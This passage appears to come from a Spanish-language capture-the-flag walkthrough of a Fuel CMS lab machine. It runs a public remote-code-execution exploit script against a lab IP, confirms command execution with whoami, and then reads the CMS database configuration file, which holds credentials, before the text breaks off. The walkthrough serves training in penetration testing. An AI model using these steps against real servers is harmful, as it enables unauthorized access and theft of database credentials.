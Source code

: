 		- Verificar la conexión al servidor.
		- Enviar comandos al servidor y recibir su salida.
>	 
>	 Esto puede dar al atacante acceso no autorizado para manipular y obtener información del servidor remoto, dependiendo de los permisos del servidor y del usuario bajo el que corre Fuel CMS*



- Ejecuto el exploit
```
python3 50477.py -u http://10.10.135.11
```
<p align="center">
    <img src="../img/Pasted_image_20241030211445.png" width="500">
</p>
>ℹ
>	*Vemos que obtuvimos conexión con el servidor*



- Compruebo algún comando
```
whoami
```
<p align="center">
    <img src="../img/Pasted_image_20241030211540.png" width="500">
</p>
>ℹ
>	*Se ejecuta el comando propuesto*


- Como podemos ejecutar cualquier comandos, podemos ver información del sistema, por ejemplo:
```
cat fuel/application/config/database.php
```
<p align="center">